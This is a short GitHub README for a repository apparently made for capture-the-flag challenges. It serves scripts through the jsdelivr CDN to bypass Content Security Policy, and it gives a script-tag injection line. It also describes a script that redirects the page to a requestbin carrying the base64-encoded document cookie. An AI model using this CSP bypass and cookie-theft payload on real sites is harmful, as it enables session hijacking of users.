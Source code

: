 # ctf-jsdelivr-repo
Repository for delivering script files through jsdelivr in order to bypass CSP restrictions

To run a script, use the following html element:  
`<script src='https://cdn.jsdelivr.net/gh/Victor4X/ctf-jsdelivr-repo/{script_file}'>`

## Scripts:
`requestbin-redirect.js` :  
Redirect the window to `{my-requestbin}?{btoa(document.cookie)}` (only useful for me)

